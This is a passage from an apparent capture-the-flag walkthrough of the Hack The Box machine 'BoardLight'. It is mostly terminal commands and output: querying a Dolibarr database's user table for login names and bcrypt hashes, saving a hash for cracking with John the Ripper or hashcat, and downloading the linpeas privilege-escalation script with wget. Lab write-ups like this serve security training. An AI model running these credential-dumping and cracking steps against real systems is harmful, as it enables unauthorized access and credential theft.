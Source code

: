 ```sh
| llx_usergroup_extrafields                                   |
| llx_usergroup_rights                                        |
| llx_usergroup_user                                          |
| llx_website                                                 |
| llx_website_extrafields                                     |
| llx_website_page                                            |
+-------------------------------------------------------------+
307 rows in set (0.00 sec)
```
{% endraw %}

<br />
Swipe the details for the users from the table.

{% raw %}
```sh
mysql> select entity, admin, login, pass_encoding, pass, pass_crypted from llx_user;
+--------+-------+----------+---------------+------+--------------------------------------------------------------+
| entity | admin | login    | pass_encoding | pass | pass_crypted                                                 |
+--------+-------+----------+---------------+------+--------------------------------------------------------------+
|      0 |     1 | dolibarr | NULL          | NULL | $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm |
|      1 |     0 | admin    | NULL          | NULL | $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96 |
+--------+-------+----------+---------------+------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```
{% endraw %}

<br />
Create a passes.txt that contains the encrypted strings.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/boardlight]
└─$ cat passes.txt
$2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm
```
{% endraw %}

<br />
Set john the ripper or hashcat against them.  While it runs, download linpeas.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/boardlight]
└─$ wget https://github.com/peass-ng/PEASS-ng/releases/download/20250126-41ed0f6a/linpeas.sh                              
--2025-02-01 13:49:07--  https://github.com/peass-ng/PEASS-ng/releases/download/20250126-41ed0f6a/linpeas.sh
Resolving github.com (github.com)... 140.82.114.3
Connecting to github.com (github.com)|140.82.114.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/98d382c4-9811-4ab6-8add-8117ade69f94?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250201%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250201T024911Z&X-Amz-Expires=300&X-Amz-Signature=eeff7fdf211a11b601fc7b6904d84648bd21e3979c78aa76cd59a00207865f37&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3Dlinpeas.sh&response-content-type=application%2Foctet-stream [following]
```